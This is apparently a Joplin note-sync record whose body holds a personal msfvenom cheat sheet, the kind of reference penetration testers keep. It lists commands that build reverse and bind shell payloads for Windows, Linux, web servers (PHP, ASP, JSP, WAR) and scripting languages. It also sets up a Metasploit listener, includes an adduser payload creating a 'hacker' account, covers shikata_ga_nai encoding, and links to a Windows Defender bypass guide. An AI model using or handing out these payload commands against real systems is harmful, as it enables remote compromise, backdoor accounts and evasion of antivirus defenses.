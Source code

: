 id: a98eebd3ad6c422ab1fd2dbb0ab2d3b5
parent_id: 
item_type: 1
item_id: c5501ccb1e8d457f9a5080d28007af2e
item_updated_time: 1643213719953
title_diff: "[{\"diffs\":[[1,\"Msfvenom\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":8}]"
body_diff: "[{\"diffs\":[[1,\"## Creating a payload\\\n\\\n- msfvenom -p \\\\[payload\\\\] LHOST=\\\\[listeninghost\\\\] LPORT=\\\\[listeningport\\\\]\\\n\\\nTo view list of payloads:\\\n\\\n> msfvenom -l payloads\\\n\\\nTo view the payload options:\\\n\\\n> msfvenom -p windows/x64/meterpreter\\\\_reverse\\\\_tcp --list-options\\\n\\\nTo view formats to output\\\n\\\n> msfvenom --list formats\\\n> \\\n> msfvenom --list encoders\\\n\\\n## Creating a payload with encoding\\\n\\\n- msfvenom -p \\\\[payload\\\\] -e \\\\[encoder\\\\] -f \\\\[formattype\\\\] -i \\\\[iteration\\\\] &lt;var=value&gt; > outputfile\\\n\\\n## Creating a payload using a template\\\n\\\n- msfvenom -p \\\\[payload\\\\] &lt;var=value&gt; -x \\\\[template\\\\] -f \\\\[formattype\\\\] > outputfile\\\n\\\n## Listening for MSfvenom Payloads:\\\n\\\n```\\\nmsf5>use exploit/multi/handler  \\\nmsf5>set payload windows/meterpreter/reverse_tcp  \\\nmsf5>set lhost <IP>  \\\nmsf5>set lport <PORT>  \\\nmsf5> set ExitOnSession false  \\\nmsf5>exploit -j  \\\n```\\\n\\\n## Windows Payloads\\\n\\\n- msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe -o shell.exe\\\n- msfvenom -p windows/meterpreter\\\\_reverse\\\\_http LHOST=IP LPORT=PORT HttpUserAgent=\\\"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36\\\" -f exe -o shell.exe\\\n- msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe\\\n- msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe\\\n- msfvenom -p windows/shell\\\\_reverse\\\\_tcp LHOST=IP LPORT=PORT -f exe > shell.exe\\\n\\\n## Linux Payloads\\\n\\\n- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf\\\n- msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf\\\n- msfvenom -p linux/x64/shell\\\\_bind\\\\_tcp RHOST=IP LPORT=PORT -f elf > shell.elf\\\n- msfvenom -p linux/x64/shell\\\\_reverse\\\\_tcp RHOST=IP LPORT=PORT -f elf > shell.elf\\\n\\\nAdd a user in windows with msfvenom:\\\n\\\n- msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe\\\n\\\n## Web Payloads\\\n\\\nPHP\\\n\\\n- msfvenom -p php/meterpreter\\\\_reverse\\\\_tcp LHOST= <your ip=\\\"\\\" address=\\\"\\\">LPORT= <your port=\\\"\\\" to=\\\"\\\" connect=\\\"\\\" on=\\\"\\\">-f raw > shell.php\\\n    cat shell.php | pbcopy && echo '&lt;?php ' | tr -d '\\\\\\\\\n' &gt; shell.php && pbpaste >> shell.php</your></your>\\\n\\\nASP\\\n\\\n- msfvenom -p windows/meterpreter/reverse_tcp LHOST= <your ip=\\\"\\\" address=\\\"\\\">LPORT= <your port=\\\"\\\" to=\\\"\\\" connect=\\\"\\\" on=\\\"\\\">-f asp > shell.asp</your></your>\\\n\\\nJSP\\\n\\\n- msfvenom -p java/jsp\\\\_shell\\\\_reverse_tcp LHOST= <your ip=\\\"\\\" address=\\\"\\\">LPORT= <your port=\\\"\\\" to=\\\"\\\" connect=\\\"\\\" on=\\\"\\\">-f raw > shell.jsp</your></your>\\\n\\\nWAR\\\n\\\n- msfvenom -p java/jsp\\\\_shell\\\\_reverse_tcp LHOST= <your ip=\\\"\\\" address=\\\"\\\">LPORT= <your port=\\\"\\\" to=\\\"\\\" connect=\\\"\\\" on=\\\"\\\">-f war > shell.war</your></your>\\\n\\\n## Scripting Payloads\\\n\\\nPython\\\n\\\n- msfvenom -p cmd/unix/reverse_python LHOST= <your ip=\\\"\\\" address=\\\"\\\">LPORT= <your port=\\\"\\\" to=\\\"\\\" connect=\\\"\\\" on=\\\"\\\">-f raw > shell.py</your></your>\\\n\\\nBash\\\n\\\n- msfvenom -p cmd/unix/reverse_bash LHOST= <your ip=\\\"\\\" address=\\\"\\\">LPORT= <your port=\\\"\\\" to=\\\"\\\" connect=\\\"\\\" on=\\\"\\\">-f raw > shell.sh</your></your>\\\n\\\nPerl\\\n\\\n- msfvenom -p cmd/unix/reverse_perl LHOST= <your ip=\\\"\\\" address=\\\"\\\">LPORT= <your port=\\\"\\\" to=\\\"\\\" connect=\\\"\\\" on=\\\"\\\">-f raw > shell.pl</your></your>\\\n\\\nCreating an Msfvenom Payload with an encoder while removing bad charecters:\\\n\\\n- msfvenom -p windows/shell\\\\_reverse\\\\_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata\\\\_ga\\\\_nai -b \\\"\\\\\\\\x0A\\\\\\\\x0D\\\"\\\n\\\n## Resources:\\\n\\\n- https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":3382}]"
metadata_diff: {"new":{"id":"c5501ccb1e8d457f9a5080d28007af2e","parent_id":"8e7bd5349cf3494986eccd0619b576c9","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1611575146763.25,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-26T16:15:50.873Z
created_time: 2022-01-26T16:15:50.873Z
type_: 13